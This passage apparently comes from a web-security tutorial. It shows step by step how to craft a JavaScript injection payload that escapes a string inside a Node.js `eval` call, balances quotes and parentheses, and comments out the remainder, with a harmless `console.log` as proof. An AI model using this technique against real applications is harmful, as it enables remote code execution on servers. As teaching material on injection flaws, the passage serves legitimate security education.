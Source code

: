 ```javascript
"; console.log("successful injection"); "

```

We will use this payload as the value of `key` in our JSON object:

```javascript
{"key":PAYLOAD}

```

* * *

## 2\. Comment Out the Rest

In order to ensure that the code does not break after our injection, we can simply comment our the rest of the line of code. To do that, we will modify our payload by adding " `//`" at the end of it:

```javascript
"; console.log("successful injection"); //

```

Now, if we replace " `+ json[key] +`" in the above `eval` function with our payload, we see that the final input going into `eval` should be as follows:

```javascript
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""; console.log("successful injection"); //").digest("hex");

```

As we can see from the above syntax highlighting, the end of the function was commented out, and will not longer be executed as part of the code.

* * *

## 3\. Even Quotes/Parentheses

Next, we must ensure that all quotes and parenthesis are even. We can see from the payload above that the " `crypto.createHash("md5").update(`" function is not closed, because we commented out the rest of it. So, instead of starting with ' `";`', we will use ' `");`', to close the `.update` parenthesis as well:

```javascript
"); console.log("successful injection"); //

```

So the final input to `eval` would be:

```javascript
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); console.log("successful injection"); //").digest("hex");

```
